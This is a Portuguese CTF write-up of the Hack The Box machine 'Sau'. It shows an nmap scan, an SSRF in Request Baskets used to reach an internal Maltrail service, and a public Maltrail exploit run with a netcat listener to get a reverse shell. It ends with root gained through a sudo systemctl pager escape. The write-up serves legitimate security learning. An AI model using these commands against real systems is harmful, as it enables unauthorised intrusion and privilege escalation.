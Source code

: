 ```yaml
---
description: CTF do Hack The Box como fiz e anotações.
title: HackTheBox - Saul - Fácil
date: 2024-01-20 20:19:00 +/-0300
categories: [CTF, HackTheBox]
tags: [ctf, hackthebox, linux, sudo, web, facil, walk]     # TAG names should always be lowercase
show_image_post: true
---
```

![logo](/assets/img/sau.png){: w="100" h="100" .left}

---
# **CTF - Sau**
---
---
## **Enumeração**

### nmap

```shell
┌──(kali💀kali)-[~/HTB/sau]
└─$ sudo nmap -sS -Pn --stats-every=7s --min-rate 10000 -oA nmap 10.10.11.224 -sV -sC --script "default and vuln"  -p 22,80,8338,55555
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-20 01:09 -03
Nmap scan report for 10.10.11.224
Host is up (0.14s latency).

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sat, 20 Jan 2024 04:10:08 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sat, 20 Jan 2024 04:09:39 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sat, 20 Jan 2024 04:09:39 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.35 seconds
```
{: .nolineno }
Uma aplicação web rodando na porta 55555

Request Baskets

http://10.10.11.224:55555/

<https://github.com/darklynx/request-baskets>

![Alt text](/assets/img/sau1.png)

Request Baskets é um serviço web que permite coletar e inspecionar solicitações HTTP por meio de uma API ou interface web. Pode ser usado para depurar solicitações

Buscando pela versão achamos o CVE-2023-27163  
Vulnerabilidade  de SSRF (Server-Side-Request-Forgery)

<https://github.com/rvizx/CVE-2023-27163>

Testando se a vulnerabilidade funciona.

Clique no botão create

Clique na engrenagem na proxima pagina, adicione IP de sua maquina.
![Alt text](/assets/img/sau2.png)

List o netcat na porta 80

`nc -lvnp 80`


use o curl com a url gerada

`curl http://10.10.11.224:55555/tit4njm`     

Você deve receber um request no netcat do ip do request basket.

```shell
┌──(kali💀kali)-[~/HTB/sau]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.11.224] 48996
GET / HTTP/1.1
Host: 10.10.14.26
User-Agent: curl/8.5.0
Accept: */*
X-Do-Not-Forward: 1
Accept-Encoding: gzip
```
{: .nolineno }

Teste ok
## **Acesso**

Editando a basket vou adicionar o endereço http://127.0.0.1:80 para o basket acessar aquela porta filtrada por firewall como mostra no nmap, como ela esta na mesma máquina n deve ter problemas com o firewall.

Vamos marcar a opção Proxy Response, para ele funcionar como um proxy.
Expand Foward Path, vai nos trazer todo path da url para o nosso endereço quando acessar.
![Alt text](/assets/img/sau3.png)

Basta acessar o endereço basket agora no nosso navegador

Temos esse MailServer rodando na porta 80
![Alt text](/assets/img/sau4.png)

Buscando no google por Maltrail (v0.53) encontramos vulnerabilidade de RCE para esta versão

Encontrei esse exploit [https://github.com/spookier/Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) Vamos usá-lo.

### Reverse Shell

```shell
┌──(kali💀kali)-[~/HTB/sau]
└─$ git clone https://github.com/spookier/Maltrail-v0.53-Exploit.git
Cloning into 'Maltrail-v0.53-Exploit'...
remote: Enumerating objects: 17, done.
remote: Counting objects: 100% (17/17), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 17 (delta 4), reused 9 (delta 3), pack-reused 0
Receiving objects: 100% (17/17), 4.44 KiB | 216.00 KiB/s, done.
Resolving deltas: 100% (4/4), done.
┌──(kali💀kali)-[~/HTB/sau]
└─$ ls
Maltrail-v0.53-Exploit  nmap.gnmap  nmap.nmap  nmap.xml
┌──(kali💀kali)-[~/HTB/sau]
└─$ cd Maltrail-v0.53-Exploit              
┌──(kali💀kali)-[~/HTB/sau/Maltrail-v0.53-Exploit]
└─$ ls
exploit.py  README.md
┌──(kali💀kali)-[~/HTB/sau/Maltrail-v0.53-Exploit]
└─$ chmod +x exploit.py      

```
{: .nolineno }

Para usar, o exemplo -> `python3 exploit.py 1.2.3.4 1337 `http://example.com

Antes list o netcat 
`nc -lvnp 4443`

```shell
┌──(kali💀kali)-[~/HTB/sau/Maltrail-v0.53-Exploit]
└─$ python3 exploit.py 10.10.14.26 4443 http://10.10.11.224:55555/tit4njm          
Running exploit on http://10.10.11.224:55555/tit4njm/login

```
{: .nolineno }
![Alt text](/assets/img/sau5.png)

### Primeira Flag
![Alt text](/assets/img/sau6.png){: w-75 .normal}

## **Escalação de Privilégio**
```shell
puma@sau:/home$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:/home$ /usr/bin/systemctl --version
systemd 245 (245.4-4ubuntu3.22)
+PAM +AUDIT +SELINUX +IMA +APPARMOR +SMACK +SYSVINIT +UTMP +LIBCRYPTSETUP +GCRYPT +GNUTLS +ACL +XZ +LZ4 +SECCOMP +BLKID +ELFUTILS +KMOD +IDN2 -IDN +PCRE2 default-hierarchy=hybrid
Podemos executar sudo apenas no comando /usr/bin/systemctl status trail.service
```
{: .nolineno }
Nosso sudo é limitado a usar apenas em `/usr/bin/systemctl status trail.service` e sem senha.
Pesquisando pela versão do systemd (245 ) encontramos sobre o CVE-2023-26604, onde [aqui](https://medium.com/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7) explica sobre.  

`sudo /usr/bin/systemctl status trail.service`

Quando der um prompt de rolagem de pagina apenas digite  
`!/bin/bash`

Recebendo uma shell root =]

![Alt text](/assets/img/sau7.png){: w-75 .normal}
![Alt text](/assets/img/sau8.png)

### Conhecimento adquiridos
-	escalação de privilegio com systemctl
-	Todos CVE das aplicações
-	Sobre existencia do request basket e maltrail

No youtube tem um "passo a passo" com ippsec, vale a pena conferir e ver forma alternativa e bem explicada.

{% include embed/youtube.html id='H6QfYGeGdGQ' %}

![Alt text](/assets/img/sau9.png)



